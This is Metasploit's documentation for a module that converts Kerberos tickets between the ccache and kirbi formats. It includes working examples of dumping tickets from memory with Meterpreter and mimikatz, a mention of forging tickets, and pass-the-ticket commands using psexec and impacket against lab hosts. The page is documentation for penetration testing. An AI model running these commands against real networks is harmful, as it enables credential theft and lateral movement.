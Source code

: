 ## Converting Kerberos Tickets

The `auxiliary/admin/kerberos/ticket_converter` module is used to convert from a ccache file format to the kirbi file format and vice versa.
The main reason you may want to convert between these file types is for use in different tools.
For example mimikatz will create tickets for you in the kirbi format but to use that in another tool
like Metasploit or Impacket you need to convert it to the ccache format first.

## Acquiring tickets

Kerberos tickets can be acquired from multiple sources. For instance:

- Retrieved directly from the KDC with the `get_ticket` module
- Forged using the `forge_ticket` module after compromising the krbtgt or a service account's encryption keys
- Extracted from memory using Meterpreter and mimikatz:

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > kiwi_cmd "sekurlsa::tickets /export"

Authentication Id : 0 ; 1393218 (00000000:00154242)
Session           : Network from 0
User Name         : DC3$
Domain            : DEMO
Logon Server      : (null)
Logon Time        : 1/12/2023 9:11:00 PM
SID               : S-1-5-18

	 * Username : DC3$
	 * Domain   : DEMO.LOCAL
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?
	 [00000000]
	   Start/End/MaxRenew: 1/12/2023 7:41:41 PM ; 1/13/2023 5:37:45 AM ; 1/1/1601 12:00:00 AM
	   Service Name (02) : LDAP ; DC3 ; @ DEMO.LOCAL
	   Target Name  (--) : @ DEMO.LOCAL
	   Client Name  (01) : DC3$ ; @ DEMO.LOCAL
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000012 - aes256_hmac
	     ab64d555f18de6a3262d921e6dc75dcf884852f551db3114f7983dbaf276e1d6
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 7	[...]
====================
Base64 of file : [0;154242]-1-0-40a50000-DC3$@LDAP-DC3.kirbi
====================
doQAAAYXMIQAAAYRoIQAAAADAgEFoYQAAAADAgEWooQAAAS2MIQAAASwYYQAAASq
MIQAAASkoIQAAAADAgEFoYQAAAAMGwpBREYzLkxPQ0FMooQAAAAmMIQAAAAgoIQA
AAADAgECoYQAAAARMIQAAAALGwRMREFQGwNEQzOjhAAABFcwhAAABFGghAAAAAMC
... etc...
====================
```

Note that tools often Base64 encode the Kirbi content to display to the user. However the `inspect_ticket` module expects
the input file to be in binary format. To convert base64 strings to binary files:

```
# Linux
cat ticket.b64 | base64 -d > ticket.kirbi

# Mac
cat ticket.b64 | base64 -D > ticket.kirbi

# Powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

## Module usage

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/ticket_converter`
3. Do: `set InputPath /path/to/ccache/or/kirbi/file`
4. Do: `set OutputPath /path/to/save/your/converted/file`
5. Do: `run`
6. You should see output similar to:
   ```
   [*] [2022.12.16-12:52:56] Converting from ccache to kirbi
   [*] [2022.12.16-12:52:56] File written to <OutputPath>
   [*] Auxiliary module execution completed
   ```
7. Your converted ticket which will have been stored at `OutputPath`
8. Example usage in Metasploit:
   ```
   use windows/smb/psexec
   run rhost=192.168.123.13 username=Administrator domaincontrollerrhost=192.168.123.1 auth=kerberos smbrhostname=host.demo.local domain=demo.local krb5ccname=/path/to/ccache/ticket
   ```
9. Example usage in impacket:
   ```
   export KRB5CCNAME=/path/to/ccache/ticket
   python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
   ```
10. You may use the `inspect_ticket` module to prints the contents of the ccache/kirbi file:
   `use auxiliary/admin/kerberos/inspect_ticket`

## Scenarios

### You have a ccache file

If you have a ccache file, for example by forging it using the `auxiliary/admin/kerberos/forge_ticket` module,
but need a file in the kirbi format which is commonly used by mimikatz.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.ccache outputpath=metasploit_ticket.kirbi

[*] [2023.01.05-17:01:02] Converting from ccache to kirbi
[*] [2023.01.05-17:01:02] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.kirbi
[*] Auxiliary module execution completed
```

### You have a kirbi file

The other scenario is if you have a kirbi file, for example tools such as mimikatz will give you tickets in the kirbi format,
and you need a ccache for use with another tool such as Metasploit and Impacket.

The steps are exactly the same for a kirbi file as they are for a ccache as Metasploit will automatically detect the input file type.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.kirbi outputpath=metasploit_ticket.ccache

[*] [2023.01.05-17:01:39] Converting from kirbi to ccache
[*] [2023.01.05-17:01:39] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.ccache
[*] Auxiliary module execution completed
```
